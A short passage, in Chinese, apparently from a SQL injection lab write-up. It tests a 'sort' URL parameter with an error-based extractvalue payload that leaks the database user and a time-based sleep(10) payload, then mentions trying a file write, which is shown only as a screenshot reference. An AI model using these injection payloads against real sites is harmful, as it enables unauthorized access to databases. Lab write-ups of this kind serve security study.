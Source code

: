 试试报错注入

```
?sort=(extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

<img src="图片\Snipaste_2023-01-23_16-32-04.png" alt="Snipaste_2023-01-23_16-32-04" style="zoom:67%;" />

试试延时盲注，发现有明显延时感觉

```
?sort=1 and sleep(10)
```

试试写文件

<img src="图片\Snipaste_2023-01-23_16-36-52.png" alt="Snipaste_2023-01-23_16-36-52" style="zoom:80%;" />

